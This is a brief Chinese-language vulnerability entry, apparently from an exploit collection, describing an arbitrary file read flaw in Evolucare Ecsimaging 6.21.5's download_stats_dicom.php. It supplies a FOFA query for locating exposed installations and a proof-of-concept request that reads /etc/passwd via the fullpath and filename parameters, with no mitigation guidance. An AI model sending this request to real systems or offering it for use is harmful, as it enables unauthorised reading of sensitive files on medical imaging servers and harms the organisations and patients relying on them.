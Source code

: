 # Evolucare Ecsimaging download_stats_dicom.php 任意文件读取漏洞

## 漏洞描述

Evolucare Ecsimaging download_stats_dicom.php 存在文件读取漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

```
EVOLUCARE Evolucare Ecsimaging 6.21.5
```

## FOFA

```
body="ECSimaging"
```

## 漏洞复现

登录页面

![](./images/202205241445840.png)

验证POC

```
/download_stats_dicom.php?fullpath=/etc/passwd&filename=/etc/passwd
```

![](./images/202205241445607.png)